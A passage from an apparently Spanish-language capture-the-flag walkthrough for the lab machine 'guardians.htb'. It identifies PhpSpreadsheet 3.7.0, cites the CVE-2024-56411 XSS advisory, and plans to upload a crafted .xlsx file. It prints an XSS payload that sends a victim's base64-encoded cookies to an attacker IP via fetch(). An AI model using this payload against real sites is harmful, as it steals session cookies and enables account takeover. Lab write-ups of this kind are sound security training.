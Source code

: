 Info:

```json
{
    "require": {
        "phpoffice/phpspreadsheet": "3.7.0",
        "phpoffice/phpword": "^1.3"
    }
}
```

Hay una version de `PHP` por asi decirlo, si buscamos informacion de dicha version veremos que tiene efectivamente una vulnerabilidad asociado a el para poder realizar un `XSS`.

La vulnerabilidad se llama `PhpSpreadsheet has a Cross-Site Scripting (XSS) vulnerability of the hyperlink base in the HTML page header` y encontraremos informacion en esta `URL`.

URL = [Exploit CVE-2024-56411 XSS](https://github.com/advisories/ghsa-hwcp-2h35-p66w)

Vemos que con un `payload` podremos injectar un comando subiendo un archivo `.xlsx` de una hoja de calculos a la pagina.

> Payload

```html
"><img src=x onerror=fetch('http://<IP>/?c='+btoa(document.cookie))>
```

Si volvemos a la pagina principal en `guardians.htb` y entramos en el panel del usuario de las credenciales que ya obtuvimos, si empezamos a probar esto, veremos que hay alerts en la parte de `assignments.php`, pero en el unico que pone `upcoming` veremos que nos deja entrar y subir un archivo `doc` o `xlsx`, por lo que por ahi tendremos que subir dicho `exploit` de la vulnerabilidad que encontramos.

Para ello utilizaremos una pagina para crear un archivo de `XLSX` real, pero con nuestro `payload` implementado en el mismo, para que cuando lo carguemos se ejecute.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-28 100259.png" alt=""><figcaption></figcaption></figure>
